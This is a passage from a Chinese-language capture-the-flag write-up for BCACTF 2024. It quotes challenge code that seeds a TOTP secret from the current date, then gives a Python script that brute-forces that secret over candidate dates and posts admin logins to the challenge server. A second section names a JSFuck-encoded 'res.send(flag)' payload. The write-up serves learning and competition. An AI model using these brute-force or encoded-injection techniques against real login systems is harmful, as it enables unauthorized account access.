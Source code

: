 ```python

        totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])

        with sqlite3.connect('moc-inc.db') as db:
            db.cursor().execute('''INSERT INTO user (
                username,
                password,
                totp_secret
            ) VALUES (?, ?, ?)''', (sys.argv[1], sys.argv[2], totp_secret))
            db.commit()

        print('Created user:')
        print('  Username:\t' + sys.argv[1])
        print('  Password:\t' + sys.argv[2])
        print('  TOTP Secret:\t' + totp_secret)

        exit(0)

    app.run()
```

OTP Token 用当前日期作为种子生成。猜测题目应该挺新的就从最近一个月开始直接爆破（其实最近一年应该也可以爆出来）

```python
import datetime, random, requests, pyotp
from tqdm import *

start = datetime.datetime.strptime("2024-05-01", "%Y-%m-%d")
end = datetime.datetime.strptime("2024-06-09", "%Y-%m-%d")
SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

url = 'http://challs.bcactf.com:31772/'
for i in tqdm(range(60)):
    random.seed(start.strftime("%Y-%m-%d"))
    data = {
        'username': 'admin',
        'password': 'admin',
        'totp': pyotp.TOTP(''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])).now()
    }
    res = requests.post(url, data=data)
    if 'incorrect' not in res.text:
        print(res.text)
        break
    start += datetime.timedelta(days=1)
```

### jslearning

> Frank 一眼就看出来然后秒了（

用JSFuck编码一下丢上去就出来了。payload

```javascript
res.send(flag)
```
